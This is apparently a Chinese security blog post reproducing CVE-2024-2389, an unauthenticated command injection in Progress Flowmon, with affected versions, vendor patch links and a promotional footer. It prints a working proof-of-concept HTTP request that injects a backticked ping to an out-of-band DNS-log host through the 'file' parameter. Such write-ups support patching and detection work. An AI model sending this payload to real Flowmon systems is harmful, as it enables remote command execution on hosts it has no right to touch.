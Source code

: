 #  CVE-2024-2389命令执行漏洞 (附EXP)   
 渗透Xiao白帽   2024-05-10 23:46  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Progress Flowmon是Progress公司的一个实时网络流量监控工具。Progress Flowmon 11.1.14之前的11.x版本和12.3.5之前的12.x版本存在安全漏洞，该漏洞源于存在操作系统命令注入漏洞，未经身份验证的用户可以通过管理界面访问系统，从而执行任意系统命令。0x02影响版本Progress Flowmon 11.1.14之前的11.x版本和12.3.5之前的12.x版本0x03漏洞复现  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDnJ4Q61zXthnicpbia1AlTYyrh7DW7N1aIXq0GrbKOHdkBm1gVtrZIAJHL7Xjy9OduciazGgvqqW9hA/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现 POC （GET）漏洞复现GET /service.pdfs/confluence?lang=en&file=`ping%20wpzmtaazjp.dgrh3.cn` HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15Connection: closeAccept: */*Accept-Language: enAccept-Encoding: gzip             测试dnslog3.nuclei工具测试（漏洞存在）0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerabilityhttps://support.kemptechnologies.com/hc/en-us/articles/19957432995213-Download-Flowmon-12-3弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来网 安 考 证需要考以下各类安全证书的可以联系我，价格优惠、组团更便宜！CISP、PTE、PTS、DSG、IRE、IRS、NISP、PMP、CCSK、CISSP、ISO27001...高薪内推 | 2024国HVV来了！大量招人中···内推通道👇 http://gywa.com.cn/XeBvWX报名投递简历时记得备注【渗透Xiao白帽】可优先直推面试～也可阅读原文报名或扫描上方二维码邀请进群交流～24hvv红蓝py交流群，共享资源 一起py 不定期福利赠送群满可以后台加vx备注py 邀请进群往期推荐 · 有彩蛋【内网渗透】内网信息收集命令汇总【内网渗透】域内信息收集命令汇总【超详细 | Python】CS免杀-Shellcode Loader原理(python)【超详细 | Python】CS免杀-分离+混淆免杀思路【超详细 | 钟馗之眼】ZoomEye-python命令行的使用【超详细 | 附EXP】Weblogic CVE-2021-2394 RCE漏洞复现【超详细】CVE-2020-14882 | Weblogic未授权命令执行漏洞复现【超详细 | 附PoC】CVE-2021-2109 | Weblogic Server远程代码执行漏洞复现【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞【CNVD-2021-30167 | 附PoC】用友NC BeanShell远程代码执行漏洞复现【奇淫巧技】如何成为一个合格的“FOFA”工程师【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】【超详细】Fastjson1.2.24反序列化漏洞复现  记一次HW实战笔记 | 艰难的提权爬坑走过路过的大佬们留个关注再走呗往期文章有彩蛋哦  
